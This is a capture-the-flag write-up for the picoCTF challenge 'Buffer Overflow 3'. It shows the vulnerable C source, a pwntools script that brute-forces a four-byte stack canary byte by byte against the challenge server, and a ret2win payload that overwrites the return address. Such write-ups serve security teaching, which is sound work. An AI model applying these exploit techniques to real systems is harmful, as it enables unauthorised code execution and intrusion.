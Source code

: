 ### BUFFER OVERFLOW 3
---

This challenge does appear a mitigation called 'canary'. https://en.wikipedia.org/wiki/Buffer_overflow_protection
```
char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}
```
Canary in this challenge is four bytes located at $ebp-0x10 as we can see. I created canary.txt containing ``` aaaa ```.
![image](https://github.com/user-attachments/assets/36dec827-0460-4b64-928e-db0c1a5b8d37)

If we solve it locally, it's really easy because we can control canary. But we have to connect to their server. This is our problem. According to hint, we'll bruteforce
every single canary char one by one.
```
#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4
void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count); // bof

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}


└─$ ./vuln
How Many Bytes will You Write Into the Buffer?
> 65
Input> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Ok... Now Where's the Flag?
```
We have 64 bytes offset until the program reaches canary.
Locally, we have canary is ``` b'aaaa' ```. When we type in 65 bytes 'a'. The last byte still matches the canary, that's why it prints out ``` Ok... Now Where's the Flag? ```.
Therefore, our approach is brute-force one character at a time. Then, concat it with canary until enough 4 bytes.
```
#!/usr/bin/python3

from pwn import *
import sys
import string

exe = ELF('./vuln', checksec=False)

# bruteforce canary

canary_off = 64

canary = b''
for i in range(1, 5):
	for c in string.printable:
		r = remote('saturn.picoctf.net',56046)


		r.sendlineafter(b'> ', str(canary_off + i).encode())

		payload = b'a'*canary_off + canary + c.encode()

		r.sendlineafter(b'Input> ', payload)
		output = r.recvall()

		if b"Ok... Now Where's the Flag?" in output: # found 1 character
			canary += c.encode()
			print(c)
			break
```

Finnaly, same as bof1 and bof2, we'll use ret2win technique to obtain our flag

```
p = remote('saturn.picoctf.net',56046)
payload = b'a'*canary_off + canary 
payload += b'a'*16 # after canary -> ebp
payload += p32(exe.sym['win'])

# pause()
p.sendlineafter(b'> ', str(len(payload)).encode())

# pause()
p.sendlineafter(b'Input> ', payload)
p.interactive()
```



